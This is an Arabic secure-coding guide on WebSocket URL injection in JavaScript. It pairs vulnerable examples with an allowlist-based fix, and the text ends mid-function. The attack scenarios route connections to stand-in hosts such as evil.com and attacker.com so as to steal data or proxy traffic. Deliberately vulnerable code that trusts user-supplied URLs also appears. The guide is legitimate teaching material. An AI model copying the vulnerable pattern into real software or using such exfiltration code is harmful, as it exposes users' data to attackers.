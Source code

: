 #### `new WebSocket()` مع URL غير محدد
```javascript
// ❌ كود ضعيف
function connectToWebSocket() {
    const wsUrl = location.search.split('ws=')[1];
    const ws = new WebSocket(wsUrl); // خطير!
}

// المهاجم يكتب: "?ws=ws://evil.com/steal"
// النتيجة: اتصال بخادم ضار!
```

#### `WebSocket` مع user input
```javascript
// ❌ كود ضعيف
function createWebSocket(serverUrl) {
    const ws = new WebSocket(serverUrl); // المستخدم يحدد الخادم!
}

// المهاجم يكتب: "ws://attacker.com"
// النتيجة: تسريب البيانات!
```

### سيناريوهات الهجوم:

#### سيناريو 1: سرقة البيانات
```javascript
// المهاجم يوجه الاتصال لخادمه
const maliciousUrl = 'ws://attacker.com/steal';
const ws = new WebSocket(maliciousUrl);

// الخادم الضار يستقبل البيانات الحساسة
ws.onmessage = function(event) {
    // إرسال البيانات للهجوم
    sendToAttacker(event.data);
};
```

#### سيناريو 2: Man-in-the-Middle
```javascript
// المهاجم ينشئ خادم وسيط
// يوجه الاتصال لخادمه بدلاً من الخادم الحقيقي
const proxyUrl = 'ws://attacker-proxy.com';
const ws = new WebSocket(proxyUrl);
```

### الحلول الآمنة:

#### 1. التحقق من صحة WebSocket URL
```javascript
// ✅ كود آمن
function isValidWebSocketUrl(url) {
    try {
        const urlObj = new URL(url);
        const allowedHosts = [
            'ws.example.com',
            'wss.secure.com',
            'chat.trusted.com'
        ];
        
        return (urlObj.protocol === 'ws:' || urlObj.protocol === 'wss:') &&
               allowedHosts.includes(urlObj.hostname);
    } catch {
        return false;
    }
```